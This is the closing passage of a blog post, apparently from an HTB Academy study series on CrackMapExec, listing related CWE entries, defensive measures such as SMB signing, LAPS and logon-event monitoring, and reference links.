- [`CWE-287`: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [`CWE-269`: Improper Privilege Management in Windows Environments](https://cwe.mitre.org/data/definitions/269.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Windows Event ID 4624 (Type 3 network logon) occurring in rapid succession across multiple workstations from a single source IP.
- Deploy SMB signing requirements across all workstations and servers to block relay attacks.
- Disable Local Administrator account re-use across workstations (deploy Microsoft LAPS).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Using CrackMapExec](https://academy.hackthebox.com/module/98) — *Official Hack The Box curriculum track*
- [NetExec (Next Generation CrackMapExec) Documentation](https://www.netexec.org/) — *Modern fork and documentation of CME capabilities*
- [Impacket Library Repository](https://github.com/fortra/impacket) — *Underlying Python library powering network protocols*
- [Microsoft LAPS Deployment Guide](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) — *Local Administrator Password Solution*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-33-using-the-metasploit-framework/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 33: Using the Metasploit Framework</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 34 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-35-stack-based-buffer-overflows-on-linux-x86/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 35: Stack-Based Buffer Overflows on Linux x86</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
